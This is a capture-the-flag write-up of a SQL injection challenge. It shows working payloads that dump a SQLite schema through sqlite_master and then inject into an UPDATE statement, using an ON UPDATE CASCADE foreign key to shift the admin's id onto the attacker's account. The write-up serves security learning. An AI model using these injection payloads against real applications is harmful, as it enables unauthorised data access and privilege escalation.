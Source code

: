 ## Solve Process  
![image80](/static/writeups/photos/image80.png)  
This is another SQL Injection challenge, as given by the hints. We are able to update the name of the user, and we are always User \#1

It should be noted that only 1 sql statement can be executed at a time.

We can assume the update statement is something like:  
```sql
UPDATE users SET name = “<payload>” WHERE id = 1
```

We can get all the sql of every table in the database by submitting   
```sql
"||(SELECT GROUP\_CONCAT(sql, ',') 
FROM sqlite\_master  
WHERE type='table')||"
```  
As the payload. 

We have the SQL of each table now  
![image81](/static/writeups/photos/image81.png)  
Interestingly, we can see the roles table:  
CREATE TABLE roles\_1fdac33d39a84e4a (id INTEGER, admin INTEGER, FOREIGN KEY(id) REFERENCES users(id) **ON UPDATE CASCADE**)

We have a foreign key constraint, referencing the id in the users table. Notably, it is set to **ON UPDATE CASCADE.** This means that when we edit the id in the users table, it will update the corresponding id in the roles table.

Here, we also assume that the admin verification is hardcoded. Meaning, the verification goes something like:  
SELECT admin FROM roles\_\<roletable\> WHERE id \= 1  
This means that **we just need to make the id** of the admin become 1, since the id is all the sql statement looks at.

Since there already exists the admin user, who has a id of 0, we just need to abuse the ON UPDATE CASCADE to shift the admin user’s id to become 1\. 

## Injection Process  
Set the admin’s user id to be 2  
```sql
", id = 2 WHERE id = 0–- 
``` 
This will update the users table, which will cascade the roles table.  
**user**	

| id | name |
| :---- | :---- |
| 2 | admin |
| 1 | you |

The cascade will make the roles table look like this  
**roles**	

| id | name |
| :---- | :---- |
| 2 | 1 |
| 1 | 0 |

Then, we can shift all the id’s of the users down by one   
```sql
", id \= id-1–
```
### user	

| id | name |
| :---- | :---- |
| 1 | admin |
| 0 | you |

The cascade will make the roles table look like this  
### roles

| id | name |
| :---- | :---- |
| 1 | 1 |
| 0 | 0 |

This will give us the flag  
![image82](/static/writeups/photos/image82.png)
